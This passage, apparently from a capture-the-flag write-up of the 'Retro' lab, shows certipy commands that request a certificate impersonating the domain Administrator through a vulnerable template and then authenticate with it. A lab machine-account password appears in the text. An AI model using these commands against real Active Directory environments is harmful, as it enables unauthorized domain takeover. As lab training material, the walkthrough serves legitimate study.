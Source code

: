 ![image.png](/assets/images/Retro_VL/image%2025.png)

Picking up the Administrator’s SID from here and giving it to certipy to request a new certificate.

```bash
certipy req -u 'BANKING$@retro.vl' -p 'aashwin10!' -ca 'retro-DC-CA' -template 'RetroClients' -upn administrator@retro.vl -sid S-1-5-21-2983547755-698260136-4283918172-500 -key-size 4096
```

![image.png](/assets/images/Retro_VL/image%2026.png)

Now lets authenticate with the Requested Certificate.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.234.44 -ns 10.129.234.44
```

![image.png](/assets/images/Retro_VL/image%2027.png)

